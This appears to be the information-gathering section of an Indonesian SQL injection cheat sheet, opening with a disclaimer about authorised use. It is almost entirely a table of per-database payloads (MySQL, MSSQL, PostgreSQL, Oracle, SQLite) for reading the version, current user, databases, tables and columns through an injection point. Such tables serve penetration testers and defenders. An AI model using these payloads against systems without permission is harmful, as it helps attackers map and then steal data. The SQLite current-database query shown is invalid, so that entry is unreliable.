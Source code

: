 # Cheatsheet Serangan SQL Injection

> **Peringatan:** Informasi ini ditujukan untuk tujuan pendidikan, pengujian penetrasi yang sah, dan riset keamanan. Menggunakan teknik ini pada sistem tanpa izin eksplisit adalah ilegal dan tidak etis.

---

## 1. Pengumpulan Informasi (Information Gathering)

| Deskripsi                              | Database          | Payload                                                                                        |
| -------------------------------------- | ----------------- | ---------------------------------------------------------------------------------------------- |
| Mendapatkan Versi Database             | MySQL, MSSQL      | `SELECT @@version`                                                                             |
|                                        | PostgreSQL        | `SELECT version()`                                                                             |
|                                        | Oracle            | `SELECT * FROM v$version`                                                                      |
| Mendapatkan Nama Database Saat Ini     | MySQL             | `SELECT database()`                                                                            |
|                                        | MSSQL             | `SELECT DB_NAME()`                                                                             |
|                                        | PostgreSQL        | `SELECT current_database()`                                                                    |
|                                        | Oracle            | `SELECT ora_database_name FROM dual`                                                           |
|                                        | SQLite            | `SELECT file FROM "main.db"`                                                                   |
| Mendapatkan User Database Saat Ini     | MySQL             | `SELECT user()`                                                                                |
|                                        | MSSQL             | `SELECT system_user`                                                                           |
|                                        | PostgreSQL        | `SELECT current_user`                                                                          |
|                                        | Oracle            | `SELECT user FROM dual`                                                                        |
| Mendaftar Semua Database               | MySQL, PostgreSQL | `SELECT schema_name FROM information_schema.schemata`                                          |
|                                        | MSSQL             | `SELECT name FROM master..sysdatabases`                                                        |
|                                        | MSSQL (2005+)     | `SELECT name FROM sys.databases`                                                               |
|                                        | Oracle            | `SELECT username FROM all_users`                                                               |
| Mendaftar Tabel dari Database Tertentu | MySQL, PostgreSQL | `SELECT table_name FROM information_schema.tables WHERE table_schema = 'nama_database'`        |
|                                        | MSSQL             | `SELECT name FROM nama_database..sysobjects WHERE xtype = 'U'`                                 |
|                                        | Oracle            | `SELECT table_name FROM all_tables WHERE owner = 'NAMA_DATABASE'`                              |
|                                        | SQLite            | `SELECT name FROM sqlite_master WHERE type='table'`                                            |
| Mendaftar Kolom dari Tabel Tertentu    | MySQL, PostgreSQL | `SELECT column_name FROM information_schema.columns WHERE table_name = 'nama_tabel'`           |
|                                        | MSSQL             | `SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'nama_tabel')` |
|                                        | Oracle            | `SELECT column_name FROM all_tab_columns WHERE table_name = 'NAMA_TABEL'`                      |
|                                        | SQLite            | `PRAGMA table_info('nama_tabel')`                                                              |
